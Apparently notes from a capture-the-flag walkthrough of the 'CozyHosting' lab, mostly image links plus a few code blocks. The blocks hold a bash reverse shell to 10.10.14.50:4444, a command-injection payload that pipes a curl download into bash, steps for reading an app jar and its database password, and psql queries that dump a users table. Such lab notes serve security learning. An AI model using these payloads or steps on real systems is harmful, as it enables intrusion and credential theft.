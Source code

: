 ![[/assets/images/cozyhosting10.png]]

```sh
# reverse shell
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.50/4444 0>&1' > rev.sh
```

Payload
```sh
test;curl${IFS}http://10.10.14.50/rev.sh|bash;
```

![[/assets/images/cozyhosting11.png]]

# Privilege Escalation
# Linpeas
- codename : jammy
- 


![[/assets/images/cozyhosting12.png]]
![[/assets/images/cozyhosting13.png]]![[/assets/images/cozyhosting14.png]]
![[/assets/images/cozyhosting15.png]]
![[/assets/images/cozyhosting16.png]]
![[/assets/images/cozyhosting17.png]]
![[/assets/images/cozyhosting18.png]]
# Lateral Movement
```sh
unzip -d /tmp/app cloudhosting-0.0.1 jar
```

![[/assets/images/cozyhosting19.png]]

```text
spring.datasource.password = Vg&nvzAQ7XxR
```
## Postgres
```sh
# on the target
psql -h 127.0.0.1 -U postgres
\list
q # to exit result view
\connect cozyhosting
\dt
select * from users;
```
